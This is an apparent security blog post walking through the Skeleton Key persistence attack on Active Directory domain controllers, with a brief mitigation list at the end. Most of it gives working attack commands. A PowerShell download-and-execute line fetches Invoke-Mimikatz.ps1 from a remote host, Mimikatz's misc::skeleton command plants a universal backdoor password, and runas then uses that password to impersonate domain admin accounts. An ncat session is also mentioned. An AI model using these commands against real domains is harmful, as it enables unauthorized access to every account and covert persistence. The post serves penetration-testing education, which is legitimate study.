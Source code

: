
In this article, I will explain the third technique for establishing persistence on the Domain Controller
# Skeleton Key Attack
## What is the Skeleton Key technique

The Skeleton Key technique involves injecting a backdoor password into the authentication process of Microsoft Windows Active Directory domain controllers. This backdoor password, typically generated by tools like Mimikatz, allows an attacker to bypass normal authentication mechanisms, effectively granting them access to any account within the Active Directory. The original passwords of the affected accounts remain intact and functional, while the backdoor password provides an additional means of unauthorized access for the attacker.
## Or In short
The idea behind this technique is to convert all passwords of users embedded in the Active Directory into another password, which is Mimikatz, while keeping their original passwords active.

### Prerequisites

	 - attacker having obtained Domain Admin rights. 
	 - Mimikatz is then executed on a Domain Controller.
	 - rebooting a Domain Controller will eliminate the malware.

I will do this attack from a Windows machine 

# Exploitation

we need upload Mimikatz in windows machine you can use Mimikatz.exe or Mimikatz.ps1 but i use Mimikatz.ps1

[![Image Alt Text](/assets/img/posts/Persistence/Skeleton Key/2024-02-14-1.png)](https://r00tven0m.github.io/)

Now I will execute the Mimikatz tool using this command:

```powershell
 iex(New-Object Net.WebClient).DownloadString('http://192.168.56.1/Invoke-Mimikatz.ps1')
```
[![Image Alt Text](/assets/img/posts/Persistence/Skeleton Key/2024-02-14-2.png)](https://r00tven0m.github.io/)
After that, we execute  this command:

```powershell
Invoke-Mimikatz -Command '"misc::skeleton"'
```
[![Image Alt Text](/assets/img/posts/Persistence/Skeleton Key/2024-02-14-3.png)](https://r00tven0m.github.io/)

Now, a password has been added to each user, which is "mimikatz", while ensuring the effectiveness of their previous passwords.
Yes, with the Skeleton Key technique implemented, you can access a PowerShell session for the user `newadmin` for example, who is a member of the Domain Admins group, using the "mimikatz" password.

[![Image Alt Text](/assets/img/posts/Persistence/Skeleton Key/2024-02-14-4.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence/Skeleton Key/2024-02-14-5.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence/Skeleton Key/2024-02-14-7.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence/Skeleton Key/2024-02-14-6.png)](https://r00tven0m.github.io/)

If the Skeleton Key technique has been successfully applied and a backdoor password like `mimikatz` has been added to all user accounts in the Active Directory, including `newadmin`, then you can indeed use `runas` to execute a PowerShell session with the privileges of the `newadmin` user or any other user in the Active Directory.

Here's an example command to run a PowerShell session with the newadmin user's privileges:

```powershell
runas /user:cbank\abdessalam.louhidi "powershell.exe"
```

# Another Way if you need get ncat session 

[![Image Alt Text](/assets/img/posts/Persistence/Skeleton Key/2024-02-14-8.png)](https://r00tven0m.github.io/)

# Some Mitigating Skeleton Key

1- `Monitor and Analyze Active Directory Logs`: Monitor Active Directory logs for suspicious activities, such as unusual login attempts, privilege escalations, or changes to user accounts. Analyzing these logs can help detect and respond to potential Skeleton Key attacks.

2- `Use Endpoint Detection and Response (EDR) Solutions`: Deploy endpoint detection and response solutions that can detect and respond to suspicious activities on endpoints, including attempts to execute Mimikatz or other malicious tools.

3 - Run lsass.exe as a protected process, it forces an attacker to load a kernel mode drive


We have reached the  end of the article.